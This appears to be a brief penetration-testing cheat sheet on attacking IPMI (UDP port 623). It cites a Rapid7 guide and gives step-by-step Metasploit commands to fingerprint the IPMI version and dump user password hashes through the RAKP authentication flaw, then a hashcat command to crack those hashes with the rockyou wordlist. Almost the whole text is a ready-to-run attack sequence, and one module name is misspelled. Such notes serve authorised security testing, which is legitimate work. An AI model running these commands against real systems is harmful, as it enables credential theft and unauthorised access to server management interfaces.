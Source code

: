 ### Resource: https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

### UDP port: 623 (asf-rmcp)

### Identify version using Metasploit

#### 1) 

    msfconsole

#### 2)  

    use auxiliary/scanner/ipmi/impi_version

#### 3) 

    set RHOSTS HOST

#### 4) 

    run

### Then depending on the IPMI version, we can abuse the vulnerabilities below:

### Dump password hashes for users with Metasploit (IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval)

#### 1) 

    msfconsole

#### 2) 

    use auxiliary/scanner/ipmi/ipmi_dumphashes

#### 3) 

    set RHOSTS HOST

#### 4) 

    run

#### 5) 

    hashcat -m 7300 -a 0 hash /usr/share/wordlists/rockyou.txt
